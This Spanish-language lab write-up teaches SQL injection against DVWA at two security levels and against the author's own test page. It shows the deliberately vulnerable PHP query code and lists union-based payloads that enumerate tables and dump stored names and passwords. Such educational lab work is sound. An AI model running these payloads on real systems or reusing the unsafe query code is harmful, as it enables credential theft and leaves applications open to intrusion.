

# DVWA
## Nada de seguridad

Para empezar vamos a utilizar la página web DVWA para poder probar este ataque, en esta página, podemos seleccionar el nivel de seguridad, que en este caso escogeremos el mas bajo.
Al dirigirnos al apartado de Inyección SQL, vemos que hay un input para meter texto.


Al cual para comprobar si esta pagina es vulnerable o no a inyecciones SQL pondremos un comilla simple tal como esta ', y si le damos a submit y sale algo parecido a esto es que el código es vulnerable.


Y para aprovecharnos de esto podemos poner lo siguiente, lo cual hace que la consulta nos muestre todos los resultados.


Como se muestra a continuación.



Esto sucede ya que no se escapa ningún caracter en la consulta realizada a la base de datos.


Este es el código en cuestión.
```
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

## Ahora probemos con un poco mas de seguridad 
Como podemos ver ahora la página no nos deja añadir información de forma aparente.


Así que para poder comprobar y realizar un  ataque será necesaria la utilización de la herramienta BurpSuite.

Para poder comprobar si es vulnerable o no esta página nos deberemos de dirigir a BurpSuite con el objetivo de detener la petición realizada por el servidor y modificarla nosotros.


Y lo comprobamos de la misma forma a la anterior con una comilla simple, y vemos que nos aparece el siguiente comentario.


Y esto nos confirma que este código es en cuestión vulnerable a ataques de inyección SQL. Pero no podemos realizar el ataque de la misma forma que antes ya qué no podemos utilizar espacios en la petición tendremos que codificarlos, para elló utilizamos + en vez de los espacios.


Y con ello nos aparece el resultado buscado.


Y este sería el código de este nivel de seguridad.
```
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>

```

Como podemos ver también realiza un escapado de los siguientes caracteres en la consulta 
```
NUL (ASCII 0), \n, \r, \, ', ", and Control-Z.
```

# Página propia

Para empezar en nuestra página vemos solo hay una página, que hace consultas a una tabla. Pero si usamos los siguientes comandos al final sacaremos información de una segunda tabla.

- Con este vemos si la página es vulnerable a inyecciones sql
```
' OR 1=1 -- -
```
- Con este comprobamos el número de columnas que tiene la tabla
```
' union select 1, 1 -- -
```
- Con este sacamos el nombre de la base de datos
```
' union select 1, database() -- -
```
- Con este, utilizando el nombre de la base de datos sacamos los nombres de las tablas
```
' union select table_name, null from information_schema.columns where table_schema = "id20453829_peliculas"-- -
```
- Tambien utilizando el nombre de la base de datos sacamos los nombres de las columnas de todas las tablas
```
' union select column_name, null from information_schema.columns where table_schema = "id20453829_peliculas"-- -

```
- Y con eso podemos sacar el nombre y contraseña de la tabla usuarios la cual esta oculta
```
' union select 1, concat(nombre,'-',contrasena) from usuarios -- -

```
